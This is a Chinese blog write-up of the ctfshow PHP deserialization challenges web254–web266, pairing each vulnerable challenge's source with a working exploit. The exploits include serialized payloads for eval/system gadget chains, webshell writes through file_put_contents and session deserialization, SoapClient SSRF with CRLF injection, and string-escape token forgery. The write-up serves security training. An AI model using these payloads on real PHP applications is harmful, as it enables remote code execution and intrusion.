





---
title: "ctfshow入门反序列化"
date: 2025-05-21T19:06:51+08:00
summary: "ctfshow入门反序列化"
url: "/posts/ctfshow入门反序列化/"
categories:
  - "ctfshow"
tags:
  - "反序列化二篇"
draft: false
---

其实也是二刷，因为这阵子对反序列化的理解更透彻了，想刷一下看看有没有什么新的收获

前面部分题的话之前第一篇写的很详细，新手可以去看那篇

https://wanth3f1ag.top/2024/11/05/web%E5%85%A5%E9%97%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87-ctfshow/

## web254

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        if($this->username===$u&&$this->password===$p){
            $this->isVip=true;
        }
        return $this->isVip;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = new ctfShowUser();
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

可以看到这里会经过login方法，所以需要通过验证

```
$this->username===$u&&$this->password===$p
```

所以直接传参设置就行

```
$u='xxxxxx';
$p='xxxxxx';
?username=xxxxxx&password=xxxxxx
```

## web255

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

会反序列化cookie中的user，所以只要传入的序列化字符串的username和password等于我们get传入的参数username和password并且isVip=true就行

```php
<?php
class ctfShowUser{
    public $username = '123123';
    public $password = '123123';
    public $isVip = true;
}
$a = new ctfShowUser();
echo urlencode(serialize($a));
```

这里需要进行url编码再传入cookie，否则会出错

```
GET /?username=123123&password=123123 HTTP/1.1
Host: a1f8f9fd-b23d-45c5-8dbd-81b2e737f0ea.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22123123%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22123123%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

## web256

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

让username和password不相等就行

```text
GET /?username=123123&password=123 HTTP/1.1
Host: fae97846-6fba-43a4-ae9a-6bc9ffd9c6e8.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22123123%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22123%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

## web257

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 20:33:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

这里的话链子还是很简单的，出口在`backDoor::getInfo()`

```
ctfShowUser::__destruct()->backDoor::getInfo()
```

exp

```php
<?php
class ctfShowUser{
    private $username;
    private $password;
    private $isVip;
    public $class;
}
class backDoor{
    public $code;
}
$a = new ctfShowUser();
$a -> class = new backDoor();
$a -> class ->code = "system('ls');";
echo urlencode(serialize($a));
```

7.1版本以上的php是对属性类型不敏感的

```
GET /?username=1&password=1 HTTP/1.1
Host: cceb8af2-1478-4455-b690-12a373b06f24.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3BN%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3BN%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3BN%3Bs%3A5%3A%22class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A13%3A%22system%28%27ls%27%29%3B%22%3B%7D%7D
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

然后读flag就行

## web258

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 21:38:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

这里增加了正则匹配，在数字前面用+号就可以绕过了

```php
<?php

class ctfShowUser{
    public $username;
    public $password;
    public $isVip;
    public $class;
}
class backDoor{
    public $code;
}
$a = new ctfShowUser();
$a -> class = new backDoor();
$a -> class -> code = "system('ls');";
$b = serialize($a);
//O:11:"ctfShowUser":4:{s:8:"username";N;s:8:"password";N;s:5:"isVip";N;s:5:"class";O:8:"backDoor":1:{s:4:"code";s:13:"system('ls');";}}
$b = str_replace("O:", "O:+", $b);
//echo $b;
//O:+11:"ctfShowUser":4:{s:8:"username";N;s:8:"password";N;s:5:"isVip";N;s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:13:"system('ls');";}}
echo urlencode($b);
//O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A8%3A%22username%22%3BN%3Bs%3A8%3A%22password%22%3BN%3Bs%3A5%3A%22isVip%22%3BN%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A13%3A%22system%28%27ls%27%29%3B%22%3B%7D%7D
```

## web259

```php
flag.php

$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

```php
index.php

<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

这里的话并没有类可以使用，所以需要用原生类SoapClient 类

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求，进而造成SSRF

所以我们需要利用SoapClient原生类来构造**SSRF**（用服务器本身请求服务器），并利用**CRLF**来构造数据包。

所以我们的payload

```php
<?php
$ua = "test\r\nX-Forwarded-For: 127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1/' , 'location' => 'http://127.0.0.1/flag.php' , 'user_agent' => $ua));
echo urlencode(serialize($client));
```

## web260

```php
<?php
$a = "ctfshow_i_love_36D";
echo serialize($a);
//s:18:"ctfshow_i_love_36D";
```

正则匹配的字符串是有的，直接传?ctfshow=ctfshow_i_love_36D就行

## web261

```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```

很简单的反序列化，把链子写一下，不会写链子的可以看我之前关于php反序列化的文章

如果类中同时定义了 `__unserialize()` 和 `__wakeup()` 两个魔术方法，则只有 `__unserialize() `方法会生效，`wakeup() `方法会被忽略。

这里的话`__invoke`是没办法去触发的，所以从`__destruct`入手

```php
<?php
class ctfshowvip{
    public $username;
    public $password;
    public $code;
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}
$a = new ctfshowvip();
$a -> username = "877.php";
$a -> password = "<?php eval(\$_POST['cmd']);?>";
$b = serialize($a);
echo urlencode($b);
```

这里的话code是在`__unserialize`中进行赋值的，且是弱比较，所以让username为0x36d的十进制877则可以绕过比较

## web262

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

有字符替换，那就是字符串逃逸了

这里会设置cookie，猜是需要让token伪造为admin

原先的字符串

```
O:7:"message":4:{s:4:"from";N;s:3:"msg";N;s:2:"to";N;s:5:"token";s:4:"user";}
```

字符增多的逃逸，构造需要逃逸的字符

```
";s:5:"token";s:5:"admin";}//27个
```

每替换一个多出一个字符，构造27个fuck

```php
<?php
class message{
    public $from="1";
    public $msg="2";
    public $to="fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck\";s:5:\"token\";s:5:\"admin\";}";
    public $token='user';
}
$a = new message();
//echo serialize($a);
//O:7:"message":4:{s:4:"from";N;s:3:"msg";N;s:2:"to";s:135:"fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
echo str_replace('fuck', 'loveU', serialize($a));
//O:7:"message":4:{s:4:"from";N;s:3:"msg";N;s:2:"to";s:135:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
```

成功逃逸，按着传参就行，访问message.php拿到flag

还有一个非预期解就是直接把token改成admin然后构造序列化字符串传入cookie

## web263

一个登录口，有/www.zip备份

```php
//check.php
<?php

error_reporting(0);
require_once 'inc/inc.php';
$GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);


if($GET){

	$data= $db->get('admin',
	[	'id',
		'UserName0'
	],[
		"AND"=>[
		"UserName0[=]"=>$GET['u'],
		"PassWord1[=]"=>$GET['pass'] //密码必须为128位大小写字母+数字+特殊符号，防止爆破
		]
	]);
	if($data['id']){
		//登陆成功取消次数累计
		$_SESSION['limit']= 0;
		echo json_encode(array("success","msg"=>"欢迎您".$data['UserName0']));
	}else{
		//登陆失败累计次数加1
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
		echo json_encode(array("error","msg"=>"登陆失败"));
	}
}
```

```php
//inc.php
<?php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('session.serialize_handler', 'php');
date_default_timezone_set("Asia/Shanghai");
session_start();
use \CTFSHOW\CTFSHOW; 
require_once 'CTFSHOW.php';
$db = new CTFSHOW([
    'database_type' => 'mysql',
    'database_name' => 'web',
    'server' => 'localhost',
    'username' => 'root',
    'password' => 'root',
    'charset' => 'utf8',
    'port' => 3306,
    'prefix' => '',
    'option' => [
        PDO::ATTR_CASE => PDO::CASE_NATURAL
    ]
]);

// sql注入检查
function checkForm($str){
    if(!isset($str)){
        return true;
    }else{
    return preg_match("/select|update|drop|union|and|or|ascii|if|sys|substr|sleep|from|where|0x|hex|bin|char|file|ord|limit|by|\`|\~|\!|\@|\#|\\$|\%|\^|\\|\&|\*|\(|\)|\（|\）|\+|\=|\[|\]|\;|\:|\'|\"|\<|\,|\>|\?/i",$str);
    }
}


class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}

/*生成唯一标志
*标准的UUID格式为：xxxxxxxx-xxxx-xxxx-xxxxxx-xxxxxxxxxx(8-4-4-4-12)
*/

function  uuid()  
{  
    $chars = md5(uniqid(mt_rand(), true));  
    $uuid = substr ( $chars, 0, 8 ) . '-'
            . substr ( $chars, 8, 4 ) . '-' 
            . substr ( $chars, 12, 4 ) . '-'
            . substr ( $chars, 16, 4 ) . '-'
            . substr ( $chars, 20, 12 );  
    return $uuid ;  
}  
```

```php
//index.php
	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
	
?>
```

在inc.php看到一个`ini_set`对序列化引擎的设置，然后开启了session，猜测是session反序列化，并且inc.php中有一个User类的__destruct含有file_put_contents函数，并且username和password可控，可以进行文件包含geshell

构造exp

```php
<?php
class User
{
    public $username;
    public $password;
    public $status=1;
}
$a = new User();
$a -> username = "shell.php";
$a -> password = "<?php eval(\$_POST[2]);?>";
echo base64_encode('|'.serialize($a));
//fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo5OiJzaGVsbC5waHAiO3M6ODoicGFzc3dvcmQiO3M6MjQ6Ijw/cGhwIGV2YWwoJF9QT1NUWzJdKTs/PiI7czo2OiJzdGF0dXMiO2k6MTt9
```

index.php没有包含inc/inc.php，session反序列化的触发点在inc.php中，因此带着cookie访问index.php并不能成功反序列化User类的对象。但访问index.php后，cookie中的limit被base64解码并被写入PHPSESSID对应名字的session文件中。 然后用同样的PHPSESSID再访问inc/inc.php时，会触发session_start()的read函数;会读取PHPSESSID对应名字的session文件并尝试反序列化，然后触发__destruct函数写入webshell

在index.php文件下设置cookie传入payload后访问/inc/inc.php触发反序列化，然后访问log-shell.php传参rce就行了

一开始以为是生成在/inc目录下，后来发现是在根目录

## web264

```php
error_reporting(0);
session_start();

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    $_SESSION['msg']=base64_encode($umsg);
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

跟刚刚那个字符串逃逸一样啊，访问message.php看一下

```php
session_start();
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_SESSION['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

其实做法是差不多的，不过就是把内容放到了session里面了，正常传参然后在message.php页面随便传个cookie：msg=1触发反序列化就行

## web265

```php
error_reporting(0);
include('flag.php');
highlight_file(__FILE__);
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = $p;
    }
    public function login(){
        return $this->token===$this->password;
    }
}

$ctfshow = unserialize($_GET['ctfshow']);
$ctfshow->token=md5(mt_rand());

if($ctfshow->login()){
    echo $flag;
}
```

地址引用就行了，让password指向token

在 PHP 中引用意味着用不同的名字访问同一个变量内容。这并不像 C 的指针

```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;
}
$a = new ctfshowAdmin();
$a -> password = &$a->token;
echo urlencode(serialize($a));
//O%3A12%3A%22ctfshowAdmin%22%3A2%3A%7Bs%3A5%3A%22token%22%3BN%3Bs%3A8%3A%22password%22%3BR%3A2%3B%7D
```

## web266

```php
<?php
highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}
```

其实这里的话有两种方法，一种是绕过if语句，一种是绕过GC回收机制

绕过GC回收机制，其实就是让他提前触发，设置一个非法数组对象就行

调试过程



exp

```php
<?php
class ctfshow{
    public $username;
    public $password;
}
$a = new ctfshow();
$b = serialize(array($a,null));
$c = str_replace("i:1;N","i:0;N",$b);
echo $c;
```

直接POST传就行

```html
GET / HTTP/1.1
Host: 7a057240-d351-485c-8737-50344637e16a.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
